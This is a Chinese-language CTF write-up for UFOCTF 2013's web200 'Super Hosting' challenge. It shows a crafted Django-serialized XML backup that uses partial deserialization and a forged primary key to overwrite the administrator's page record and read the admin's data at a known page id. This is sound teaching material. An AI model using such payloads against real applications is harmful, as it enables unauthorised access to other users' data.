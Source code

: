 ```yaml
---
layout: post
title: "UFOCTF 2013 web200 super hosting"
description: "UFOCTF 2013 web200 super hosting django object partial deserialization"
category: "writeup"
tags: ["UFOCTF 2013", "web", "writeup"]
---
```

{% include JB/setup %}
#UFOCTF 2013 web200 Super Hosting



#### 这次UFOCTF的web题把我虐成渣了。虽然现场没做出来，我还是要做个记录。



这道题只提供了修改一个静态页面的功能。目标是窃取管理员信息。
提示是管理员会每隔几十秒更新一次他自己的页面。
但是所有可以控制的数据全都被严格过滤了，没有`"'<>`等各种奇怪的字符可以实现XSS。（除非有什么0day）

<img src="http://raw.github.com/5lipper/CTF-Challenges/master/UFOCTF/web/Super%20Hosting/pic1.png" width="600" height="350"/>

这个网站提供了备份和恢复的功能，显然是从这个方向入手。
直接备份，得到一个[zip文件](https://github.com/5lipper/CTF-Challenges/blob/master/UFOCTF/web/Super%20Hosting/rrr_44f437ced647ec3f40fa0841041871cda7c90584fda442d7018bd49bd0e80aaf.zip)。

其中一个关键文件是.backup

```xml
<?xml version="1.0" encoding="utf-8"?>
<django-objects version="1.0">
    <object pk="12349999283" model="hosting.pagesettings">
        <field type="CharField" name="owner_name">rrr</field>
        <field type="CharField" name="owner_email">test@localhost</field>
        <field type="CharField" name="page_title">My homepage</field>
        <field type="TextField" name="page_content">Hello everyone! This is my new homepage.</field>
        <field type="CharField" name="page_footer">Made with love and care</field>
        <field type="BooleanField" name="page_is_public">True</field>
        <field type="CharField" name="page_public_id">44f437ced647ec3f40fa0841041871cd</field>
    </object>
</django-objects>
```

可以看出这是一个django model序列化([serialization](https://docs.djangoproject.com/en/dev/topics/serialization/))后得到的xml文件，里面包含了这个model的各个参数。

其中`owner_name`是不能修改的用户名，`page_public_id`是长度为32的字符串（初始值就是md5(owner_name)），其他的地方是静态页面的参数（全被过滤）。

任何人已知`page_public_id`就可以访问到这个页面。但我们不知道管理员用户名，也就猜不到这个地址。
![pic2](http://raw.github.com/5lipper/CTF-Challenges/master/UFOCTF/web/Super%20Hosting/pic2.png)

文件名的结构是`{username}_{md5sum of username}{md5sum of zipfile}.zip`
如果文件名不符或者`owner_name`不是当前用户就会报错，而当object的内容有不合法的时候就会报服务器错误500。

比赛的时候，我们的思路也集中在构造这个xml上。

因为根据这个xml，程序会直接注册新的object。如果在保存的时候没有检查，就可能直接注册管理员，也就是注册`model="auth.user"`的object。
但实际上程序在`DeserializedObject.save()`之前似乎有判断，只会保存`model="hosting.pagesettings"`的object。（因为注册不存在的model时并没有报错）

接下来的思路就是通过修改pk(primary key)覆盖掉别的object。
也就是把pk改成1，显然管理员自己的页面在数据库中是第一个。
这样再等待管理员更新，如果管理员不更新page_id，就会把他的数据更新到我们指定的页面。
但这样做也是不行的。管理员每次都把`pk=1`的object的数据全部复原。
而且一旦他更新，`pk=1`的object对应的`owner_name`也变成了管理员的用户名，在备份得到zip的时候也是看不到那个object的。

我们最大的失误就是没有意识到在反序列化(deserialization)得到object的时候，是可以不完全修改的。(partial deserialization)只要某一栏留空，在保存的时候就不会更新数据库。
这样一来，只要把页面信息留空，而页面地址填成自己的，再令`pk=1`，我们就能找到一个既有管理员信息，又有已知地址的静态页面。

```xml
<?xml version="1.0" encoding="utf-8"?>
<django-objects version="1.0">
<object pk="1" model="hosting.pagesettings">
    <field type="CharField" name="owner_name">rrr</field>
	<field type="CharField" name="owner_email"></field>
	<field type="CharField" name="page_title"></field>
	<field type="TextField" name="page_content"></field>
	<field type="CharField" name="page_footer"></field>
	<field type="BooleanField" name="page_is_public">True</field>
	<field type="CharField" name="page_public_id">abababababababababababababababab</field>
</object>
<object pk="12349999283" model="hosting.pagesettings">
	<field type="CharField" name="owner_name">rrr</field>
	<field type="CharField" name="owner_email"></field>
	<field type="CharField" name="page_title"></field>
	<field type="TextField" name="page_content"></field>
	<field type="CharField" name="page_footer"></field>
	<field type="BooleanField" name="page_is_public">True</field>
	<field type="CharField" name="page_public_id">44f437ced647ec3f40fa0841041871cd</field>
</object>
</django-objects>
```

在管理员更新掉这个页面之前，可以通过`page_public_id=abababababababababababababababab`访问到它。

![pic3](https://raw.github.com/5lipper/CTF-Challenges/master/UFOCTF/web/Super%20Hosting/pic3.png)

这题有思路只可惜没有找到关键突破口。自己还是太弱了啊。。
